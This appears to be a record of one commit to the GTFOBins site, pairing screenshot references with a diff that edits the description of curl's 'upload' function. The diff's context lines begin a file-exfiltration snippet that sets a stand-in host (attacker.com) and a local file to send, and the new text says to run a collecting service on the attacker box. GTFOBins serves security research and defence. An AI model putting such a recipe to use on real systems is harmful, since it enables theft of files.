

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/curl.md, in a window 1280 px wide. Shown: the top 612 px of the page, without its empty margins (208-1026 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix description

```diff
--- a/_gtfobins/curl.md
+++ b/_gtfobins/curl.md
@@ -1,7 +1,7 @@
 ---
 functions:
   upload:
-    - description: Send local file with an HTTP POST request.
+    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
         URL=http://attacker.com/
         LFILE=file_to_send
```
